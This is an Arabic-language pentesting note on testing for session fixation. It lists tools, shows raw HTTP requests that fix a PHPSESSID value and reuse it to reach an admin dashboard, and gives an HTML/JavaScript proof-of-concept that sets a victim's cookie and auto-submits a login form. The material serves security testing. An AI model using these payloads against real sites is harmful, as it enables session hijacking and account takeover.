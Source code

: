 
# 🧩 أدوات Pentesting لاختبار Session Fixation

| الأداة | الوظيفة |
|--------|----------|
| **Burp Suite** | تعديل الطلبات، التقاط الكوكيز، إعادة الاستخدام |
| **Cookie Manager Extensions** | تعديل الكوكيز مباشرة في المتصفح |
| **Postman** | إرسال طلبات يدوية مع Session ID محدد |
| **cURL** | سكريبت سريع لاختبار التوكن |
| **XSS payloads** | تغيير الكوكيز من خلال JavaScript |
| **HTML POC page** | صفحة بسيطة لإجبار المستخدم على استخدام Session ID معين |

---

# 📌 أمثلة عملية على التنفيذ

### مثال 1: استخدام Session ID في كوكيز

```http
GET /login HTTP/1.1
Host: vulnerable.com
Cookie: PHPSESSID=hacker_session
```

بعدين تسجيل الدخول:

```http
POST /login HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded

username=admin&password=pass123
```

بعدين تعيد استخدام نفس التوكن:

```http
GET /admin/dashboard HTTP/1.1
Host: vulnerable.com
Cookie: PHPSESSID=hacker_session
```

✅ لو ظهر لك لوحة التحكم → ثغرة موجودة.

---

### مثال 2: استخدام HTML Form لـ CSRF + Session Fixation

```html
<form action="https://vulnerable.com/login" method="POST">
  <input type="hidden" name="username" value="victim">
  <input type="hidden" name="password" value="password123">
</form>

<script>
  document.cookie = "PHPSESSID=hacker_session; path=/";
  document.forms[0].submit();
</script>
```
